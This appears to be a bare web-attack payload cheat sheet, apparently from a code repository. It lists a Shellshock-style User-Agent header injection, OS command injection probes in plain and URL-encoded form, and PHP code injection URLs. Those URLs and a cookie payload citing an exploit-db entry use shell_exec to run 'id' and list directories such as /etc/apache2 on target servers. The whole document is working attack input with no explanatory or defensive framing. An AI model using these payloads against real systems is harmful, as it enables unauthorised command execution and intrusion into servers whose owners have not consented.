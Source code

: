 Header Injection
=========================
```
User-Agent: () { :;}; /bin/sleep 0
```

OS Command Injection
=========================
Echo
-------
```
|echo dadzo62ztj 01lnotnbq8||a #' |echo dadzo62ztj 01lnotnbq8||a #|" |echo dadzo62ztj 01lnotnbq8||a #
%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23'%20%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23%7c%22%20%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23
```
Source Code Injection
==========================

PHP Code Injection Examples
---------------------------
```php
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('ls%20-al%20/etc/apache2')%7d%7d
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker{${shell_exec('ls%20-al%20/etc/')}}

http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('id')%7d%7d
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker{${shell_exec('id')}}

# https://www.exploit-db.com/exploits/46276
Cookie: CSRF-TOKEN=rnqvt{{shell_exec('ls -lah')}}to5gw; simcify=uv82sg0jj2oqa0kkr2virls4dl
```
